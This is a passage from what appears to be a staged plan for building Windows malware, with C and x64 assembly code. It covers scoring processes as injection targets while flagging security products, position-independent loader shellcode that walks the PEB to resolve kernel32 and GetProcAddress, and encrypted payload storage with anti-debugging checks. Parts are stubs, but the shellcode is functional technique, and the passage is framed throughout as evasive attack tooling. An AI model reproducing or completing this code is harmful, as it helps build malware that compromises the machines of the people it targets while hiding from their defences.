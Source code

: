 #### 5.2 Target Selection Intelligence
```c
typedef struct {
    BOOL is_browser;
    BOOL is_system;
    BOOL is_security_product;
    BOOL has_debug_port;
    BOOL is_critical;
    int injection_score;  // 0-100
} process_analysis_t;

process_analysis_t analyze_target(DWORD pid) {
    // Smart targeting to avoid detection
}
```

### STAGE 6: Shellcode & Payload Management (Week 3)

#### 6.1 Position-Independent Shellcode
```asm
; Universal loader shellcode
[BITS 64]
start:
    ; Get current position
    call get_rip
get_rip:
    pop rax
    
    ; Resolve kernel32.dll
    mov rax, [gs:0x60]  ; PEB
    mov rax, [rax+0x18] ; PEB_LDR_DATA
    mov rax, [rax+0x20] ; InMemoryOrderModuleList
    mov rax, [rax]      ; 2nd entry = kernel32
    mov rbx, [rax+0x20] ; DllBase
    
    ; Find GetProcAddress
    ; ... PE parsing ...
    
    ; Load main payload
    ; ...
```

#### 6.2 Encrypted Payload Storage
```c
typedef struct {
    uint8_t key[32];
    uint8_t iv[16];
    uint32_t original_size;
    uint32_t encrypted_size;
    uint8_t* encrypted_data;
} encrypted_payload_t;

void encrypt_payload(payload_t* payload) {
    // AES-256-GCM encryption
    // Anti-debugging checks
    // Integrity verification
}
```
